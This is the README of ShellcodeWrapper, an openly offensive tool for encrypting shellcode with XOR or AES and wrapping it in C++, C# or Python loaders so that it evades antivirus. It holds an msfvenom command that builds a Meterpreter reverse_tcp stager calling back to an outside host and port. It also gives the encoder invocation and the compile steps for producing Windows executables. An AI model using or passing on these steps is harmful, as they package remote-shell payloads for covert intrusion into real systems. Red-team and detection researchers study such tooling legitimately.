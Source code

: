 Mutlibyte XOR or AES encrypted shellcode
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

These little proof of concept are inspired by this blogpost: [Bypass antivirus with 10 lines of code](http://www.attactics.org/2016/03/bypassing-antivirus-with-10-lines-of.html)

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C# and Python:
	- `encryptedShellcodeWrapper.cpp` - for now supports **only** XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and AES encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and AES encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `aes`
  - desired output: `base64`, `cpp`, `csharp`, `python`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++ and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py shellcode.raw thisismykey xor
```
This will generate C#, C++ and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
